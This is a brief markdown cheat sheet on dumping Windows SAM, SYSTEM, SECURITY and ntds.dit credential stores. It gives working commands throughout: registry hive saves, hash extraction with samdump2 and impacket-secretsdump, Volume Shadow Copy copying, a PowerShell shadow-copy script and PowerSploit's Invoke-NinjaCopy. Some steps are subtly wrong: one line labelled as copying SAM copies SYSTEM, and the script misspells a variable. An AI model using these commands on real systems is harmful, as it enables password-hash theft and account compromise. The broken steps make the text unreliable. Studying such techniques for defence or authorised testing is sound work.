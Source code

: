 ```yaml
---
title: SAM Dumping
date: M02-18-2023
author: i4
---
```

- `C:\windows\system32\config\SAM` 
- `C:\windows\system32\config\SYSTEM`

Those files are protected and can not be copied while the system is running!

## From the registry
```cmd
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

Download those files and extract the hashes
```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```

## Volume Shadow Copy
- Only available on servers
```
vssadmin create shadow /for=C:
#Copy SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SAM
#Copy SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SYSTEM
#Copy ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\ntds\ntds.dit C:\Extracted\ntds.dit

# You can also create a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

#### Powershell
```powershell
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
cmd /c copy "$($volume.DeviceObject)\windows\system32\config\sam" C:\Users\Public
$voume.Delete();if($notrunning -eq 1){$service.Stop()}
```


## Invoke-NinjaCopy
- [Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) 

```powershell
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\sam" -LocalDestination "c:\copy_of_local_sam"
```